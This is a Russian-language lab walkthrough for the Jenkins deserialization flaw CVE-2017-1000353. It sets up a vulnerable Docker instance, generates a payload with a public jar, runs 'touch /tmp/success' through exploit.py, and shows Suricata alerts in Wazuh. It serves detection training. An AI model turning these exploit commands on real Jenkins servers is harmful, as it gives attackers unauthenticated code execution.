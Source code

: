 # CVE-2017-1000353

Jenkins версий 2.56 и более ранних, а также 2.46.1 LTS и более ранних уязвимы для удаленного выполнения кода без проверки подлинности. Уязвимость удаленного выполнения кода без аутентификации позволяла злоумышленникам передавать сериализованный Java-объект SignedObject в интерфейс командной строки Jenkins, который затем десериализовался с использованием нового ObjectInputStream в обход существующего механизма защиты на основе черного списка.

### Экслуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8080/ будет доступна страница Jenkins

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно сгенерировать полезную нагрузку с помощью этого [файла](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Далее с помощью [эксплоита](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) доставить полезную нагрузку&#x20;

```
python3 exploit.py http://ваш-ip:8080 jenkins_poc.ser
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

В результате эксплуатации был создан файл /tmp/success&#x20;

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
